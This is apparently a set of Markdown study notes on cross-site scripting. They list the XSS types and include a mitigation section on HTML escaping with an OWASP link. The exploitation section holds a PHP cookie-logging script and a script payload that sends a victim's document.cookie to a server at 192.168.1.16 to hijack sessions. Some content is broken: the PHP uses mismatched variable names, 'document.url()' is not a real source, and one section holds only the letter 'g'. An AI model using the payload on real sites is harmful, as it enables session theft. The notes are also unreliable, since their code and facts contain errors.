 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```


## Exploitation
### Session Hijacking
- Cookie Stealer (PHP for Apache web server)
```PHP
<?php
$Cookie=$_GET['txt'];
$log="Cookie=$cookie\r\n";
$f=fopen("log.txt","a");
fwrite($f,$log);
?>
```
- XSS Payload
```javascript
<script>window.location="http://192.168.1.16/cookie1.php?txt=" + document.cookie;</script>
```
### Fake Page
- g

### [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

